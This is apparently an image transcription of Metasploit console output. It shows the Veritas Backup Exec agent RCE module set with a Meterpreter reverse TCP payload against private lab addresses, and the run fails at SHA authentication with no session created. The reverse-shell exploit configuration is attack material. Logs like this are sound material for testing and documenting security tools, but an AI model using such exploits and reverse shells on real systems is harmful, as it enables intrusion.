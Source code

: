 ```

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.180.140   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   10000            yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444 
[*] 172.16.180.140:10000 - Exploiting ...
[*] 172.16.180.140:10000 - Connecting to BE Agent service
[*] 172.16.180.140:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.140:10000 - Passing SHA authentication
[-] 172.16.180.140:10000 - Can not authenticate with SHA. Error code of NDMP_CONFIG_GET_AUTH_ATTR (0x103) packet: 9
[*] Exploit completed, but no session was created.
```
